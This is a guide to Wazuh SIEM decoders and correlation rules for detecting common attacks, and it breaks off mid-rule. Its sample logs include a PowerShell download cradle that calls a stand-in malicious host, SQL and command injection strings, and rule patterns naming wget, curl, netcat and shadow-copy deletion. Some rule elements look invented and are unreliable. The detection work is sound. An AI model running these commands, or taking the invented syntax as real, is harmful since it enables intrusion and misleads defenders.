



# SIEM Correlation Rules: The Complete Guide to Advanced Threat Detection

## Table of Contents

## Introduction: The Power of Correlation

Imagine you're a security analyst monitoring thousands of events per second. A single failed login? Normal. But five failed logins followed by a successful one from an unusual location at 3 AM? That's a story worth investigating. This is where SIEM correlation rules transform raw data into actionable intelligence.

> **The Father of Canning, 1810**: Nicolas Appert revolutionized food preservation by understanding that heat could kill microbes. Similarly, correlation rules preserve your security by identifying and eliminating threats before they spoil your infrastructure.

## Understanding SIEM Correlation Rules

### What Are Correlation Rules?

Correlation rules are the brain of your SIEM system. They analyze multiple events across different sources, identify patterns, and trigger alerts when suspicious activities match predefined conditions.

### Rule Classification in Wazuh

Wazuh classifies rules into severity levels from 0 to 15:

| Level | Severity | Description | Example |
|-------|----------|-------------|---------|
| 0 | Ignored | No action needed | Debug logs |
| 3 | Low | Informational | Successful login |
| 5 | Low | User notification | Failed login attempt |
| 7 | Low | Bad word matching | Suspicious keyword detected |
| 9 | Medium | Error from invalid request | Multiple failed logins |
| 12 | High | High importance event | Privilege escalation detected |
| 15 | Critical | Maximum priority alert | Active ransomware attack |

### The Correlation Process



## Attack Detection Patterns

### 1. Insecure Deserialization & Remote Code Execution

#### Understanding the Attack

Deserialization attacks occur when applications process untrusted serialized data without validation. Attackers inject malicious code within serialized objects, leading to remote code execution.

#### Real-World Log Example

```log
2024-03-28 20:38:00 INFO web.controller - Processing user update request for johndoe
2024-03-28 20:38:00 DEBUG web.service - Deserializing user data
2024-03-28 20:38:00 WARN web.service - Unexpected property found in serialized data: permissions
2024-03-28 20:38:00 ERROR web.service - Failed to deserialize user data: 
com.fasterxml.jackson.databind.JsonMappingException: Unexpected character ('*' (code 42))
2024-03-28 20:38:00 INFO web.controller - User update failed for johndoe (Invalid data format)
```

#### Indicators of Compromise (IOCs)

**Network Traffic:**
- Unusual traffic spikes to deserialization endpoints
- Connections to ports 40001, 40011 (Ehcache RMI)
- Large outbound data transfers post-exploitation

**Log Patterns:**
- Deserialization errors with untrusted data
- Unexpected object properties in serialized data
- JsonMappingException or similar errors
- References to suspicious classes or methods

**System Behavior:**
- Unexpected process creation
- Increased CPU/memory usage
- Unauthorized file modifications

#### Custom Decoder Implementation

```xml
<decoder name="java_deserialization">
    <parent>webapp</parent>
    <prematch>^Deserialization of untrusted data detected</prematch>
    <regex>^Deserialization of untrusted data detected\. User with IP (\S+) submitted data containing a serialized object with unexpected properties\.</regex>
    <order>srcip</order>
</decoder>
```

#### Python Decoder for Advanced Processing

```python
from wazuh.decoder import WazuhDecoder

class WebServiceDecoder(WazuhDecoder):
    def __init__(self):
        super().__init__()
        self.name = "web_service"
        self.keys = ["logger", "message"]
    
    def decode(self, msg):
        data = {}
        for key in self.keys:
            if key in msg:
                data[key] = msg[key]
        
        # Detect deserialization patterns
        if "deserialization" in data["message"].lower():
            data["deserialization_details"] = {}
            
            if "unexpected" in data["message"].lower():
                data["deserialization_details"]["unexpected_property"] = True
            
            if "failed" in data["message"].lower() and "json" in data["message"].lower():
                data["deserialization_details"]["json_parsing_error"] = True
        
        return data

# Register decoder
wazuh_decoder = WebServiceDecoder()
wazuh_decoder.register()
```

#### Correlation Rule

```xml
<group name="java,deserialization">
    <rule id="100003" level="9">
        <decoded_as>java_deserialization</decoded_as>
        <description>Remote Code Execution via Deserialization detected</description>
        <mitre>
            <id>T1055</id>
            <tactic>Execution</tactic>
            <technique>Process Injection</technique>
        </mitre>
        <alert_by_email>yes</alert_by_email>
    </rule>
</group>
```

### 2. Command Injection Attacks

#### Understanding the Attack

Command injection occurs when attackers execute arbitrary system commands through vulnerable applications by manipulating user input.

#### Real-World Example

```log
timestamp="2024-03-29 12:47:00" agent_id="10" 
full_log="/var/www/html/index.php?page=showcontent&id=123; ping -c 3 8.8.8.8"
```

The semicolon (`;`) separates the legitimate parameter from the malicious command.

#### Detection Indicators

- File paths with suspicious command separators (`;`, `|`, `&&`)
- Unexpected spawning of system utilities (ping, wget, curl, netcat)
- Web requests containing command-line syntax
- Processes spawned by web server user accounts

#### Custom Decoder

```xml
<decoder name="command_injection_detector">
    <regex>^timestamp="(\S+)" agent_id="(\S+)" full_log="(.+)"</regex>
    <order>timestamp, agent_id, full_log</order>
</decoder>

<decoder name="extract_command">
    <parent>command_injection_detector</parent>
    <regex>;(.+)$</regex>
    <order>injected_command</order>
</decoder>
```

#### Advanced Correlation Rule

```xml
<group name="web_app_attack">
    <rule id="31106" level="13">
        <if_sid>10002</if_sid>
        <decoded_as>extract_command</decoded_as>
        <match>ping|wget|curl|netcat|nc|bash|sh|cmd</match>
        <description>Command injection attack detected. Injected command: $(injected_command)</description>
        <mitre>
            <id>T1059</id>
            <tactic>Execution</tactic>
            <technique>Command and Scripting Interpreter</technique>
        </mitre>
    </rule>
</group>
```

### 3. Session Fixation Attacks

#### Attack Mechanism

Session fixation exploits applications that don't regenerate session IDs after authentication. Attackers provide victims with pre-set session IDs, then hijack the authenticated session.

#### Attack Flow



#### Detection Log Pattern

```log
timestamp="2024-03-29 12:47:00" agent_id="10" 
full_log="User 'alice' initiated a new session with session_id='SESSION123' from IP '192.168.1.50'"
```

#### Decoder Configuration

```xml
<decoder name="session_fixation">
    <regex>^timestamp="(\S+)" agent_id="(\S+)" full_log="User '(\S+)' initiated a new session with session_id='(\S+)' from IP '(\S+)'"</regex>
    <order>timestamp, agent_id, username, session_id, srcip</order>
</decoder>
```

#### Correlation Rule with Frequency Analysis

```xml
<rule id="100100" level="12" frequency="3" timeframe="300">
    <decoded_as>session_fixation</decoded_as>
    <same_field>session_id</same_field>
    <different_field>srcip</different_field>
    <description>Session fixation attack: Same session ID used from multiple IPs</description>
    <mitre>
        <id>T1550</id>
        <tactic>Defense Evasion</tactic>
        <technique>Use Alternate Authentication Material</technique>
    </mitre>
</rule>
```

### 4. Denial of Service (DoS) Attacks

#### Attack Characteristics

DoS attacks overwhelm systems with traffic or exploit vulnerabilities to crash services, making them unavailable to legitimate users.

#### Log Evidence

```log
45.88.186.160 - - [25/Mar/2024:18:25:19 +0300] "GET /wp-includes/css/buttons.css HTTP/1.0" 503 1377
45.88.186.160 - - [25/Mar/2024:18:25:24 +0300] "GET / HTTP/1.0" 503 1377
66.249.75.100 - - [25/Mar/2024:18:37:54 +0300] "GET /robots.txt HTTP/1.0" 503 1377
52.164.120.242 - - [25/Mar/2024:18:43:14 +0300] "GET /wp-includes/IXR/admin.php HTTP/1.0" 503 1377
```

Multiple 503 (Service Unavailable) errors indicate potential DoS.

#### Advanced Decoder with Pattern Matching

```xml
<decoder name="web_server_503">
    <program_name>^webserver$</program_name>
    <regex>^(\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}) .* "(GET|POST) ([^"]+)" (\d{3})</regex>
    <order>srcip, method, url, status_code</order>
</decoder>
```

#### Rate-Based Correlation Rule

```xml
<rule id="100001" level="10" frequency="10" timeframe="60">
    <decoded_as>web_server_503</decoded_as>
    <field name="status_code">503</field>
    <description>DoS attack detected: High rate of 503 errors</description>
    <mitre>
        <id>T1499</id>
        <tactic>Impact</tactic>
        <technique>Endpoint Denial of Service</technique>
    </mitre>
</rule>
```

### 5. Credential Reuse Attacks

#### Attack Pattern

Attackers use stolen credentials across multiple systems, exploiting password reuse habits.

#### Multi-Stage Detection

```log
Mar 29 13:58:22 host sshd[pam_faillock]: user 'johnDoe' was locked out after failure number 5
Mar 29 13:58:22 host sshd[]: Failed password for user johnDoe from 10.0.0.1 port 53555 ssh2
Mar 29 14:02:15 host sshd[]: Accepted password for johnDoe from 203.0.113.99 port 12345 ssh2
```

#### Comprehensive Decoder

```xml
<decoder name="ssh_auth_pattern">
    <program_name>sshd</program_name>
    <regex>^(Failed|Accepted) password for (\S+) from (\S+) port (\d+)</regex>
    <order>auth_result, username, srcip, srcport</order>
</decoder>
```

#### Multi-Event Correlation Rule

```xml
<group name="credential_attacks">
    <!-- Rule for failed attempts -->
    <rule id="100201" level="5" frequency="3" timeframe="300">
        <decoded_as>ssh_auth_pattern</decoded_as>
        <field name="auth_result">Failed</field>
        <same_field>username</same_field>
        <description>Multiple failed SSH login attempts for user $(username)</description>
    </rule>
    
    <!-- Rule for successful login after failures -->
    <rule id="100202" level="12">
        <if_sid>100201</if_sid>
        <decoded_as>ssh_auth_pattern</decoded_as>
        <field name="auth_result">Accepted</field>
        <different_field>srcip</different_field>
        <description>Successful login after multiple failures from different IP - Possible credential reuse</description>
        <mitre>
            <id>T1078</id>
            <tactic>Initial Access</tactic>
            <technique>Valid Accounts</technique>
        </mitre>
    </rule>
</group>
```

### 6. Social Engineering & Phishing Attacks

#### Detection Patterns

Phishing attacks often leave subtle traces in logs that correlation rules can identify.

#### Suspicious Web Access Pattern

```log
timestamp="2024-03-30 15:22:10" host="webserver01" service="nginx" 
message="127.0.0.1 - - [30/Mar/2024:15:22:10 -0400] \"GET /important_documents/financial_report.pdf HTTP/1.1\" 404 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
```

#### Email Spoofing Detection

```log
Jul 5 11:14:15 mail postfix/smtp[12345]: connect from compromisedhost.com[1.2.3.4] 
(sender=[colleague.name@company.com], recipient=[your.email@company.com], helo=[compromisedhost.com])
```

#### Multi-Layer Decoder

```xml
<decoder name="email_spoofing">
    <regex>connect from (\S+)\[(\S+)\].*sender=\[([^]]+)\].*recipient=\[([^]]+)\].*helo=\[([^]]+)\]</regex>
    <order>connecting_host, srcip, sender, recipient, helo_domain</order>
</decoder>
```

#### Intelligent Correlation Rule

```xml
<rule id="100300" level="10">
    <decoded_as>email_spoofing</decoded_as>
    <match_any>
        <field name="connecting_host">compromisedhost|suspicious|malware</field>
        <different_field>sender_domain|helo_domain</different_field>
    </match_any>
    <description>Email spoofing detected: Mismatched sender and HELO domains</description>
    <mitre>
        <id>T1566</id>
        <tactic>Initial Access</tactic>
        <technique>Phishing</technique>
    </mitre>
</rule>
```

### 7. Suspicious DNS Queries

#### Malicious DNS Patterns

DNS queries to known malicious domains or unusual query patterns indicate compromise.

#### Example Logs

```log
2023-03-15T12:00:00.000Z dns-query src=192.168.1.100 dst=8.8.8.8 
query=malicious-domain.com type=A class=IN

timestamp="2024-03-30 12:34:56" host="client1.example.com" process="systemd-resolved" 
message="name: suspiciousdomain.com, type: A, rcode: NXDOMAIN"
```

#### DNS Anomaly Decoder

```xml
<decoder name="dns_query_analyzer">
    <regex>dns-query src=(\S+) dst=(\S+) query=(\S+) type=(\S+)</regex>
    <order>srcip, dstip, domain, query_type</order>
</decoder>
```

#### Threat Intelligence Integration

```xml
<rule id="100400" level="12">
    <decoded_as>dns_query_analyzer</decoded_as>
    <list field="domain" lookup="match_key">etc/lists/malicious_domains.txt</list>
    <description>DNS query to known malicious domain: $(domain)</description>
    <mitre>
        <id>T1071</id>
        <tactic>Command and Control</tactic>
        <technique>Application Layer Protocol</technique>
    </mitre>
</rule>

<!-- Rule for DNS tunneling detection -->
<rule id="100401" level="10" frequency="20" timeframe="60">
    <decoded_as>dns_query_analyzer</decoded_as>
    <field name="query_type">TXT</field>
    <same_field>srcip</same_field>
    <description>Possible DNS tunneling: High frequency of TXT queries</description>
</rule>
```

### 8. Web Application Attacks

#### SQL Injection Detection

```log
timestamp="2024-03-30 14:07:12" source="/var/log/apache2/access.log" 
message="192.168.1.10 - - [30/Mar/2024:14:07:12 +0200] \"GET /admin/login.php?username=admin' OR '1'='1 HTTP/1.1\" 400 234"
```

#### Comprehensive Web Attack Decoder

```xml
<decoder name="web_attack_detector">
    <regex>^(\S+) .* "(GET|POST) ([^"]+)" (\d{3})</regex>
    <order>srcip, method, request_uri, status_code</order>
</decoder>

<decoder name="sql_injection_detector">
    <parent>web_attack_detector</parent>
    <regex>(\w+)=([^&]*('|--|;|UNION|SELECT|INSERT|UPDATE|DELETE|DROP))</regex>
    <order>parameter, sql_pattern</order>
</decoder>
```

#### Multi-Pattern Web Attack Rules

```xml
<group name="web_attacks">
    <!-- SQL Injection -->
    <rule id="100500" level="12">
        <decoded_as>sql_injection_detector</decoded_as>
        <description>SQL Injection attempt detected in parameter $(parameter)</description>
        <mitre>
            <id>T1190</id>
            <tactic>Initial Access</tactic>
            <technique>Exploit Public-Facing Application</technique>
        </mitre>
    </rule>
    
    <!-- XSS Attack -->
    <rule id="100501" level="10">
        <decoded_as>web_attack_detector</decoded_as>
        <regex><script|javascript:|onerror=|onload=</regex>
        <description>Cross-Site Scripting (XSS) attempt detected</description>
    </rule>
    
    <!-- Directory Traversal -->
    <rule id="100502" level="11">
        <decoded_as>web_attack_detector</decoded_as>
        <regex>\.\./|\.\.\\|%2e%2e%2f</regex>
        <description>Directory traversal attempt detected</description>
    </rule>
    
    <!-- Rate-based attack detection -->
    <rule id="100503" level="9" frequency="50" timeframe="10">
        <decoded_as>web_attack_detector</decoded_as>
        <field name="status_code">^4\d\d$</field>
        <same_field>srcip</same_field>
        <description>Web application scan detected: High rate of 4xx errors</description>
    </rule>
</group>
```

### 9. Command & Control (C2) Communications

#### Botnet Detection Patterns

C2 communications show distinct patterns: periodic beaconing, unusual ports, encrypted traffic to suspicious IPs.

#### Example C2 Traffic

```log
timestamp="2024-03-30 15:23:45" source="/var/log/iptables.log" 
message="ALLOW tcp OUT eth0 192.168.1.10:54893 185.220.101.45:443 packets:1000 bytes:52000"
```

#### C2 Detection Decoder

```xml
<decoder name="c2_traffic_analyzer">
    <regex>(ALLOW|DENY) (\w+) (IN|OUT) (\S+) (\S+):(\d+) (\S+):(\d+) packets:(\d+) bytes:(\d+)</regex>
    <order>action, protocol, direction, interface, srcip, srcport, dstip, dstport, packets, bytes</order>
</decoder>
```

#### Behavioral C2 Detection Rules

```xml
<group name="c2_detection">
    <!-- Periodic beaconing detection -->
    <rule id="100600" level="10" frequency="10" timeframe="3600">
        <decoded_as>c2_traffic_analyzer</decoded_as>
        <field name="direction">OUT</field>
        <same_field>srcip,dstip,dstport</same_field>
        <time_constraint>
            <interval>300</interval>  <!-- Every 5 minutes -->
            <tolerance>30</tolerance>  <!-- 30 second tolerance -->
        </time_constraint>
        <description>C2 beaconing detected: Periodic communication to $(dstip):$(dstport)</description>
        <mitre>
            <id>T1571</id>
            <tactic>Command and Control</tactic>
            <technique>Non-Standard Port</technique>
        </mitre>
    </rule>
    
    <!-- Data exfiltration detection -->
    <rule id="100601" level="12">
        <decoded_as>c2_traffic_analyzer</decoded_as>
        <field name="direction">OUT</field>
        <field name="bytes" compare="greater">1000000</field>  <!-- > 1MB -->
        <list field="dstip" lookup="match_key">etc/lists/suspicious_ips.txt</list>
        <description>Possible data exfiltration to suspicious IP: $(dstip)</description>
    </rule>
    
    <!-- Non-standard port communication -->
    <rule id="100602" level="9">
        <decoded_as>c2_traffic_analyzer</decoded_as>
        <field name="dstport">^(31337|1337|4444|5555|6666|7777|8888|9999)$</field>
        <description>Communication on suspicious port $(dstport) detected</description>
    </rule>
</group>
```

### 10. PowerShell-Based Attacks

#### Suspicious PowerShell Activities

```log
timestamp="2024-03-30 16:45:00" EventID="4104" 
ScriptBlock="IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')"
```

#### PowerShell Decoder

```xml
<decoder name="powershell_script">
    <regex>EventID="4104".*ScriptBlock="([^"]+)"</regex>
    <order>script_content</order>
</decoder>
```

#### PowerShell Attack Detection Rules

```xml
<group name="powershell_attacks">
    <!-- Download cradle detection -->
    <rule id="100700" level="12">
        <decoded_as>powershell_script</decoded_as>
        <regex>DownloadString|DownloadFile|WebClient|Invoke-WebRequest|iwr|wget</regex>
        <description>PowerShell download cradle detected</description>
        <mitre>
            <id>T1059.001</id>
            <tactic>Execution</tactic>
            <technique>PowerShell</technique>
        </mitre>
    </rule>
    
    <!-- Encoded command detection -->
    <rule id="100701" level="11">
        <decoded_as>powershell_script</decoded_as>
        <regex>-enc|-EncodedCommand|FromBase64String</regex>
        <description>Encoded PowerShell command execution detected</description>
    </rule>
    
    <!-- Bypass attempt detection -->
    <rule id="100702" level="10">
        <decoded_as>powershell_script</decoded_as>
        <regex>-ExecutionPolicy Bypass|-ep bypass|Set-ExecutionPolicy</regex>
        <description>PowerShell execution policy bypass attempt</description>
    </rule>
</group>
```

## Advanced Correlation Techniques

### Multi-Stage Attack Detection

Sophisticated attacks often involve multiple stages. Here's how to detect them:

#### Kill Chain Correlation

```xml
<group name="kill_chain_detection">
    <!-- Stage 1: Reconnaissance -->
    <rule id="200001" level="5">
        <decoded_as>web_access</decoded_as>
        <regex>/robots\.txt|/sitemap\.xml|/admin|/wp-admin</regex>
        <description>Reconnaissance activity detected</description>
        <group>recon_stage</group>
    </rule>
    
    <!-- Stage 2: Exploitation attempt -->
    <rule id="200002" level="8">
        <if_sid>200001</if_sid>
        <decoded_as>web_attack_detector</decoded_as>
        <same_field>srcip</same_field>
        <description>Exploitation attempt following reconnaissance</description>
        <group>exploit_stage</group>
    </rule>
    
    <!-- Stage 3: Post-exploitation -->
    <rule id="200003" level="13">
        <if_sid>200002</if_sid>
        <decoded_as>command_injection_detector</decoded_as>
        <same_field>srcip</same_field>
        <description>Post-exploitation activity detected - Full kill chain observed</description>
        <alert_by_email>yes</alert_by_email>
        <mitre>
            <id>TA0001,TA0002,TA0003</id>
            <tactic>Initial Access,Execution,Persistence</tactic>
        </mitre>
    </rule>
</group>
```

### Time-Based Correlation

Detect attacks that occur within specific time windows:

```xml
<rule id="200100" level="11" frequency="5" timeframe="60">
    <time>
        <weekday>saturday,sunday</weekday>
        <hour>00-06</hour>
    </time>
    <decoded_as>ssh_auth_pattern</decoded_as>
    <field name="auth_result">Accepted</field>
    <description>Suspicious weekend/night login activity</description>
</rule>
```

### Geographical Correlation

Detect impossible travel scenarios:

```xml
<rule id="200200" level="12">
    <decoded_as>vpn_login</decoded_as>
    <geo_location>
        <previous_location>US</previous_location>
        <current_location>CN</current_location>
        <time_difference>3600</time_difference>  <!-- 1 hour -->
    </geo_location>
    <description>Impossible travel detected: US to CN in 1 hour</description>
</rule>
```

## Implementation Best Practices

### 1. Decoder Development Guidelines

#### Structure Your Decoders Hierarchically

```xml
<!-- Parent decoder for web logs -->
<decoder name="web_base">
    <prematch>^\S+ \S+ \S+ \[</prematch>
</decoder>

<!-- Child decoder for Apache -->
<decoder name="apache_access">
    <parent>web_base</parent>
    <regex>^(\S+) \S+ \S+ \[([^\]]+)\] "(\S+) ([^"]+)" (\d+) (\d+)</regex>
    <order>srcip, timestamp, method, uri, status, size</order>
</decoder>

<!-- Child decoder for Nginx -->
<decoder name="nginx_access">
    <parent>web_base</parent>
    <regex>^(\S+) \S+ \S+ \[([^\]]+)\] "(\S+) ([^"]+)" (\d+) (\d+) "([^"]*)" "([^"]*)"</regex>
    <order>srcip, timestamp, method, uri, status, size, referer, user_agent</order>
</decoder>
```

### 2. Rule Optimization Strategies

#### Use Composite Rules for Complex Scenarios

```xml
<group name="advanced_correlation">
    <!-- Base rule for tracking -->
    <rule id="300001" level="0">
        <decoded_as>firewall</decoded_as>
        <field name="action">ALLOW</field>
        <description>Track allowed connections</description>
        <group>connection_tracking</group>
    </rule>
    
    <!-- Correlation rule -->
    <rule id="300002" level="8" frequency="100" timeframe="60">
        <if_matched_sid>300001</if_matched_sid>
        <same_field>srcip</same_field>
        <different_field>dstport</different_field>
        <description>Port scan detected: $(srcip) scanned 100+ ports</description>
    </rule>
</group>
```

### 3. Performance Tuning

#### Efficient Rule Ordering

Place most frequently matched rules first:

```xml
<group name="performance_optimized">
    <!-- High-frequency rule -->
    <rule id="400001" level="3">
        <field name="status">200</field>
        <description>Normal web access</description>
    </rule>
    
    <!-- Medium-frequency rule -->
    <rule id="400002" level="5">
        <field name="status">^4\d\d$</field>
        <description>Client error</description>
    </rule>
    
    <!-- Low-frequency rule -->
    <rule id="400003" level="8">
        <field name="status">^5\d\d$</field>
        <description>Server error</description>
    </rule>
</group>
```

### 4. Testing and Validation

#### Using wazuh-logtest

Always test your decoders and rules:

```bash
# Start logtest
/var/ossec/bin/wazuh-logtest

# Input your test log
2024-03-30 10:00:00 test log entry

# Check the output
**Phase 1: Completed pre-decoding.
**Phase 2: Completed decoding.
**Phase 3: Completed filtering (rules).
```

#### Automated Testing Script

```python
#!/usr/bin/env python3
import subprocess
import json

def test_rule(log_entry, expected_rule_id):
    """Test if a log entry triggers the expected rule"""
    
    process = subprocess.Popen(
        ['/var/ossec/bin/wazuh-logtest'],
        stdin=subprocess.PIPE,
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE,
        text=True
    )
    
    output, error = process.communicate(input=log_entry)
    
    if f"Rule id: '{expected_rule_id}'" in output:
        return True, "Test passed"
    else:
        return False, f"Expected rule {expected_rule_id} not triggered"

# Test cases
test_cases = [
    {
        "log": "Failed password for admin from 192.168.1.1 port 22 ssh2",
        "expected_rule": "5716"
    },
    {
        "log": "SQL Injection: admin' OR '1'='1",
        "expected_rule": "100500"
    }
]

for test in test_cases:
    result, message = test_rule(test["log"], test["expected_rule"])
    print(f"Test: {message}")
```

## Troubleshooting Common Issues

### Issue 1: Decoder Not Matching

**Symptom:** Logs aren't being decoded properly

**Solution:**
```xml
<!-- Add debug decoder -->
<decoder name="debug_decoder">
    <prematch>.*</prematch>  <!-- Match everything -->
    <regex>(.*)</regex>
    <order>full_log</order>
</decoder>
```

Check the output in logtest to see what's being captured.

### Issue 2: Rules Not Firing

**Common Causes:**
1. Incorrect decoder reference
2. Field names don't match
3. Regex patterns too restrictive

**Debugging Steps:**
```bash
# Enable debug mode
echo "wazuh_modules.debug=2" >> /var/ossec/etc/local_internal_options.conf
systemctl restart wazuh-manager

# Check logs
tail -f /var/ossec/logs/ossec.log | grep -i "rule"
```

### Issue 3: Performance Degradation

**Symptoms:** High CPU usage, delayed alerts

**Solutions:**

1. **Optimize regex patterns:**
```xml
<!-- Bad: Greedy matching -->
<regex>.*malicious.*</regex>

<!-- Good: Specific matching -->
<regex>^[^:]+: malicious pattern detected$</regex>
```

2. **Use frequency limits:**
```xml
<rule id="500001" level="5" frequency="10" timeframe="60">
    <!-- Limit alert frequency -->
    <options>no_full_log</options>  <!-- Don't store full log -->
</rule>
```

## Integration with MISP, TheHive, and Cortex

### Setting Up the Integration Pipeline



### Configuration for TheHive Integration

```python
# /var/ossec/integrations/custom-thehive.py
#!/usr/bin/env python3

import json
import requests
from datetime import datetime

class TheHiveIntegration:
    def __init__(self, api_url, api_key):
        self.api_url = api_url
        self.headers = {
            'Authorization': f'Bearer {api_key}',
            'Content-Type': 'application/json'
        }
    
    def create_alert(self, wazuh_alert):
        """Create TheHive alert from Wazuh alert"""
        
        alert = {
            'title': f"Wazuh Alert: {wazuh_alert['rule']['description']}",
            'description': wazuh_alert.get('full_log', ''),
            'severity': self.map_severity(wazuh_alert['rule']['level']),
            'source': 'Wazuh',
            'sourceRef': wazuh_alert['id'],
            'artifacts': self.extract_artifacts(wazuh_alert),
            'customFields': {
                'wazuh_rule_id': wazuh_alert['rule']['id'],
                'wazuh_agent': wazuh_alert['agent']['name']
            }
        }
        
        response = requests.post(
            f"{self.api_url}/api/alert",
            headers=self.headers,
            json=alert
        )
        
        return response.json()
    
    def map_severity(self, wazuh_level):
        """Map Wazuh level to TheHive severity"""
        if wazuh_level >= 12:
            return 3  # High
        elif wazuh_level >= 8:
            return 2  # Medium
        else:
            return 1  # Low
    
    def extract_artifacts(self, alert):
        """Extract observables from alert"""
        artifacts = []
        
        if 'srcip' in alert:
            artifacts.append({
                'dataType': 'ip',
                'data': alert['srcip']
            })
        
        if 'domain' in alert:
            artifacts.append({
                'dataType': 'domain',
                'data': alert['domain']
            })
        
        return artifacts

# Usage
if __name__ == "__main__":
    # Read Wazuh alert from stdin
    alert = json.loads(input())
    
    # Initialize TheHive integration
    hive = TheHiveIntegration(
        api_url="https://thehive.example.com",
        api_key="YOUR_API_KEY"
    )
    
    # Create alert in TheHive
    result = hive.create_alert(alert)
    print(json.dumps(result))
```

### Wazuh Integration Configuration

```xml
<!-- /var/ossec/etc/ossec.conf -->
<integration>
    <name>custom-thehive</name>
    <level>8</level>
    <group>attack,authentication_failed,authentication_failures</group>
    <api_key>YOUR_THEHIVE_API_KEY</api_key>
    <alert_format>json</alert_format>
</integration>
```

## Real-World Scenarios and Solutions

### Scenario 1: Ransomware Detection

**Challenge:** Detect ransomware activity before encryption completes

**Solution:**
```xml
<group name="ransomware_detection">
    <!-- File extension monitoring -->
    <rule id="600001" level="12" frequency="10" timeframe="30">
        <decoded_as>sysmon_event_11</decoded_as>
        <field name="file_name">\.locked$|\.enc$|\.encrypted$|\.crypto$</field>
        <description>Multiple encrypted files detected - Possible ransomware</description>
        <mitre>
            <id>T1486</id>
            <tactic>Impact</tactic>
            <technique>Data Encrypted for Impact</technique>
        </mitre>
    </rule>
    
    <!-- Volume shadow copy deletion -->
    <rule id="600002" level="14">
        <decoded_as>windows_process</decoded_as>
        <field name="command_line">vssadmin.*delete.*shadows|wbadmin.*delete.*catalog</field>
        <description>Shadow copy deletion detected - Ransomware behavior</description>
    </rule>
    
    <!-- Suspicious process chain -->
    <rule id="600003" level="13">
        <if_sid>600001,600002</if_sid>
        <description>Ransomware kill chain detected - Immediate action required</description>
        <options>alert_by_email</options>
    </rule>
</group>
```

### Scenario 2: Insider Threat Detection

**Challenge:** Identify malicious insider activities

**Solution:**
```xml
<group name="insider_threat">
    <!-- After-hours access -->
    <rule id="700001" level="7">
        <time>
            <weekday>monday-friday</weekday>
            <hour>!09-17</hour>  <!-- Outside 9 AM - 5 PM -->
        </time>
        <decoded_as>file_access</decoded_as>
        <field name="file_path">/sensitive/|/confidential/</field>
        <description>After-hours access to sensitive files</description>
    </rule>
    
    <!-- Mass file download -->
    <rule id="700002" level="10" frequency="100" timeframe="300">
        <decoded_as>file_access</decoded_as>
        <field name="action">read</field>
        <same_field>username</same_field>
        <description>Mass file access detected - Possible data theft</description>
    </rule>
    
    <!-- USB device usage -->
    <rule id="700003" level="9">
        <decoded_as>usb_device</decoded_as>
        <field name="action">mount</field>
        <list field="username" lookup="match_key">etc/lists/privileged_users.txt</list>
        <description>USB device mounted by privileged user</description>
    </rule>
</group>
```

### Scenario 3: APT Detection

**Challenge:** Detect Advanced Persistent Threats with low and slow tactics

**Solution:**
```xml
<group name="apt_detection">
    <!-- Long-term persistence -->
    <rule id="800001" level="8" frequency="3" timeframe="86400">
        <decoded_as>network_connection</decoded_as>
        <field name="dstip">^(?!10\.|192\.168\.|172\.)</field>  <!-- External IP -->
        <same_field>srcip,dstip,dstport</same_field>
        <time_constraint>
            <hour_of_day>02-04</hour_of_day>  <!-- Night time -->
        </time_constraint>
        <description>Persistent night-time beaconing detected</description>
    </rule>
    
    <!-- Lateral movement -->
    <rule id="800002" level="11">
        <decoded_as>windows_logon</decoded_as>
